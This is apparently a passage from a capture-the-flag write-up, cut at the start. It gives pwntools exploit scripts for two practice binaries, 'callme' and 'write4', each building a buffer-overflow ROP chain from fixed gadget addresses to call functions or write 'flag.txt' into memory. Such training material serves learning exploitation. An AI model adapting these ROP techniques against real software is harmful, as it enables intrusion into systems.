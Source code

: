 ```python

pop_rdi = 0x4009a3
pop_rsi = 0x40093d
p1 = 0xdeadbeefdeadbeef
p2 = 0xcafebabecafebabe
p3 = 0xd00df00dd00df00d
call_one = 0x400720
call_two = 0x400740
call_three = 0x4006f0

payload = b'1' * 0x28
payload += p64(pop_rdi) + p64(p1)
payload += p64(pop_rsi) + p64(p2) + p64(p3)
payload += p64(call_one)
payload += p64(pop_rdi) + p64(p1)
payload += p64(pop_rsi) + p64(p2) + p64(p3)
payload += p64(call_two)
payload += p64(pop_rdi) + p64(p1)
payload += p64(pop_rsi) + p64(p2) + p64(p3)
payload += p64(call_three)

#raw_input()
sh.send(payload)
sh.interactive()
```

## write4
EXP:
```python
from pwn import *

sh = process('./write4')

pop_r14_r15 = 0x400690
mov_r15_to_r14 = 0x400628
pop_rdi = 0x400693
bss = 0x601038
flag = 0x7478742e67616c66
func = 0x400510
payload = b'1'* 0x28
payload += p64(pop_r14_r15) + p64(bss) + p64(flag)
payload += p64(mov_r15_to_r14)
payload += p64(pop_rdi)
payload += p64(bss)
payload += p64(func)

raw_input()
sh.send(payload)

sh.interactive()

```
